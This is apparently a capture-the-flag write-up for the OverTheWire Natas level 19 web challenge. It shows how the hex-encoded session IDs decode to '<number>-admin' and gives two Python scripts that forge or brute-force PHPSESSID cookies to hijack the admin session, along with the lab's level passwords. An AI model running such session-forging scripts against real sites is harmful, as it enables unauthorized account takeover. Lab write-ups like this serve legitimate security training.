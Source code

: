 
## Server URL
```
http://natas19:4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs@natas19.natas.labs.overthewire.org
```

## Solution
We get a login box (Username and Password)

We don't get the source code but there is a mention in the page :
```
This page uses mostly the same code as the previous level, but session IDs are no longer sequential...
```

Hmmm, we could try to bruteforce the session id again. Not sure what are the implications of `session ids are no longer sequential`. 

Oh well, now i see, the session values looks like this `3536312d61`

We can't just bruteforce it like we did before.

What we can do tho is login repeatedly. This will generate a new random session id that has the valid structure.

We can then bruteforce using those session ids and retrieve an admin session.

By looking at the received session id we find that there is a suffix that change depending on the username. Since we want the admin session, we will use the `admin` username.

We get this suffix for the admin username : `d61646d696e`

The password doesn't seem to impact the session value.

The prefix always start with a `3` and finish with a `2`

We can do a bruteforce using those constraint.

Let's first try to use the cookie that we receive to see if we can get an authenticated session.

I've let it run for a while but I would only get regular user sessions.

Playing around with all the prefixes I received, I can confirm that every session id start with `3` and finish with `2`.

We received prefix of length `3`, `5` or `7` but they an be longer as long as they respect the `3?` pattern

For length `3` we get `3?2`

For length `5` we get `3?3?2`

For length `7` we get `3?3?3?2`

For length `9` we get `3?3?3?3?2`

and so on... Doesn't seems like there is an end to the amount of character we can have in the session id.

hmmm.. Bruteforcing this is kina long, Already bruteforced sessions ids with `7` or less character prefix with no success...

Running the search in parallel would definitely be more efficient..

Ok soo, I had it all wrong, still managed to find it via bruteforce (Had a problem in my combination generation).

I assumed that the session id was a unique identifier and didn't even try to interpret it as ascii bytes.

When converted, we get a string like :
```
XXX-admin
```

This is why the suffix stay the same when using a given username.
Should have realised that the repeating pattern `3?` is in fact numbers. The ascii representation of `0` is `30`, `2` is `32`, `9` is `39` ...

So here is the pure bruteforce approach (On encoded string)

```py
import requests
import itertools

url = "http://natas19:4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs@natas19.natas.labs.overthewire.org"

admin_suffix = "d61646d696e"

count = 1
max_count = 5
while count < max_count:
    combinations = itertools.product(range(10), repeat=count)
    for combination in combinations:
        prefix = ""

        # Session start with 3? and repeat the same pattern
        for c in combination:
            prefix += f"3{c}"

        # Always finish with 2
        prefix += "2"
    
        session_id = f"{prefix}{admin_suffix}"
        r = requests.get(url, cookies={"PHPSESSID": session_id})

        invalid_session = "Please login" in r.text
        regular_user = "regular user" in r.text

        print(f"[{count}] Trying session id {session_id} -- {'Regular user' if regular_user else ''} {'Invalid session' if invalid_session else ''}")

        if not regular_user and not invalid_session:
            print("Found valid session id !")
            password = r.text.split('Password: ')[1].split("</pre>")[0]
            print(f"Natas20 password is {password}")
            exit(0)

    count += 1
```

And here is the approach when understanding the structure of the data :
```py
import requests
import binascii

url = "http://natas19:4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs@natas19.natas.labs.overthewire.org"

max_id = 640
for i in range(max_id+1):   
    ascii_session_id = f"{i}-admin"
    session_id = binascii.hexlify(bytes(ascii_session_id, 'utf-8')).decode('utf-8')
    r = requests.get(url, cookies={"PHPSESSID": session_id})

    invalid_session = "Please login" in r.text
    regular_user = "regular user" in r.text

    print(f"Trying session id {ascii_session_id} -- {session_id} -- {'Regular user' if regular_user else ''} {'Invalid session' if invalid_session else ''}")

    if not regular_user and not invalid_session:
        print("Found valid session id !")
        print(r.text)
        password = r.text.split('Password: ')[1].split("</pre>")[0]
        print(f"Natas20 password is {password}")
        break
```

We get Natas20 password with both approach (The second approach is way faster)
```
eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF
```
